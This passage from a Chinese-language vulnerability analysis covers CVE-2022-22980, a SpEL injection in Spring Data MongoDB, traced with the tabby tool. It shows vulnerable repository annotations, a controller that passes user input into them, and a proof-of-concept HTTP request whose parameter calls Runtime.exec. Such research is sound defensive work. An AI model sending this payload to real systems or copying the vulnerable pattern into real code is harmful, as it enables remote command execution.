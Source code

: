 `parseExpression`只是解析了表达式，还需要调用`getValue()`才是真正执行表达式的代码。而`getValue()`在`CachingExpressionParser#parseExpression`的上一层`DefaultSpELExpressionEvaluator#evaluate`存在调用

```bash
public <T> T evaluate(String expression) {
    return (T) parser.parseExpression(expression).getValue(context, Object.class);
}
```

## [POC](#toc_poc)

结合前文`StringBasedMongoQuery#createQuery`和`StringBasedAggregation#doExecute`的两条 chain 可以得知，我们需要在程序的 repository 打上形如这样的注解：

```bash
@Query("{id : ?#{?0}}")
@Query("{id : :#{?0}}")
@Aggregation("{ '$project': { '_id' : ?#{?0} } }")
@Aggregation("{ '$project': { '_id' : :#{?0} } }")
```

Controller 将 Request 传参直接传入 repository 注解中

```bash
@RequestMapping(value = "/demo1")
public List<?> demo1(@RequestParam(name = "keyword") String keyword) {
    return demoRepository.findById1(keyword);
}
```

直接发送如下请求，即造成 SpEL 注入。

```bash
POST /demo4 HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

keyword=T(java.lang.String).forName(%22java.lang.Runtime%22).getRuntime().exec(%22calc%22)
```

至此，从注解出发到`parseExpression`的 gadgets 就走完了。可见使用 tabby 生成代码属性图，能让我们很方便的识别所有的 chain，并且也方便我们一一查看，并判断 chain 的可行性。在审计中，通过阅读代码思考 Source 和 Sink 的位置，结合手册进行理解，并通过 tabby 自动化地帮助我们找 chain 和 gadgets，可以达到事半功倍的效果。

# [Reference](#toc_reference)

tabby 项目地址：[https://github.com/wh1t3p1g/tabby](https://github.com/wh1t3p1g/tabby)  
三梦师傅提供的环境：[https://github.com/threedr3am/learnjavabug/tree/master/spring/spring-data-mongodb-spel-CVE-2022-22980](https://github.com/threedr3am/learnjavabug/tree/master/spring/spring-data-mongodb-spel-CVE-2022-22980)  
[https://tanzu.vmware.com/security/cve-2022-22980](https://tanzu.vmware.com/security/cve-2022-22980)  
[https://docs.spring.io/spring-data/mongodb/docs/current/reference/html/#mongo.core](https://docs.spring.io/spring-data/mongodb/docs/current/reference/html/#mongo.core)  
[https://stackoverflow.com/questions/38509882/how-are-spring-data-repositories-actually-implemented](https://stackoverflow.com/questions/38509882/how-are-spring-data-repositories-actually-implemented)
